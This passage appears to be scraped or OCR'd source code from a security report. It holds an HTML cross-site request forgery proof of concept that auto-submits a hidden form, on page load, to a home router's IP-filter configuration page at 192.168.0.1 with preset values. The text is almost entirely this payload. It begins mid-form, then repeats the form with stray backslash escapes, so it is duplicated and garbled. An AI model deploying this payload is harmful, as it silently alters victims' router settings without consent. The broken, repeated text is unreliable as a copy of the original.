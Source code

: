 <input type="hidden" name="No00802120" value="2">
<input type="hidden" name="No00802120" value="3">
<input type="hidden" name="No00801220" value="5">
<input type="hidden" name="No00801220" value="7">
<input type="hidden" name="No00802120" value="8">
<input type="hidden" name="No00802120" value="9">
<input type="hidden" name="No00802120" value="10">
<input type="hidden" name="No00802120" value="11">
<input type="hidden" name="No00802120" value="12">
<input type="hidden" name="No00802120" value="13">
<input type="hidden" name="No00801220" value="14">
<input type="hidden" name="No00801220" value="15">
<input type="hidden" name="No00801220" value="16">
<input type="hidden" name="No00801220" value="17">
<input type="hidden" name="No00801220" value="18">
<input type="hidden" name="No00450000" value="">
<input type="hidden" name="No00450011" value="sys">
<input type="hidden" name="No00450000dummy" 
value="%93K%97p">
</form>
</body>
</html>
-----
=======
\-\-\-\-\-
<html>
<body onLoad\="javascript:document.forms[ 0 ].submit();">
<form action\="http://192.168.0.1/entry_ipfilter_main_top.html"
 method\="POST">
<input type\="hidden" name\="No0001F011str" value\="PPPoE">
<input type\="hidden" name\="No00A21051str" value\="1">
<input type\="hidden" name\="No00301000" value\="22">
<input type\="hidden" name\="No00301212" value\="">
<input type\="hidden" name\="No00302000" value\="1">
<input type\="hidden" name\="No00302112" value\="">
<input type\="hidden" name\="No00801000" value\="22">
<input type\="hidden" name\="No00801211" value\="1">
<input type\="hidden" name\="No00802000" value\="1">
<input type\="hidden" name\="No00802111" value\="1">
<input type\="hidden" name\="No00818071str" value\="0">
<input type\="hidden" name\="No00802120" value\="1">
<input type\="hidden" name\="No00802120" value\="2">
<input type\="hidden" name\="No00802120" value\="3">
<input type\="hidden" name\="No00801220" value\="5">
<input type\="hidden" name\="No00801220" value\="7">
<input type\="hidden" name\="No00802120" value\="8">
<input type\="hidden" name\="No00802120" value\="9">
<input type\="hidden" name\="No00802120" value\="10">
<input type\="hidden" name\="No00802120" value\="11">
<input type\="hidden" name\="No00802120" value\="12">
<input type\="hidden" name\="No00802120" value\="13">
<input type\="hidden" name\="No00801220" value\="14">
<input type\="hidden" name\="No00801220" value\="15">
<input type\="hidden" name\="No00801220" value\="16">
<input type\="hidden" name\="No00801220" value\="17">
<input type\="hidden" name\="No00801220" value\="18">
<input type\="hidden" name\="No00450000" value\="">
<input type\="hidden" name\="No00450011" value\="sys">
<input type\="hidden" name\="No00450000dummy" 
value\="%93K%97p">
</form>
</body>
</html>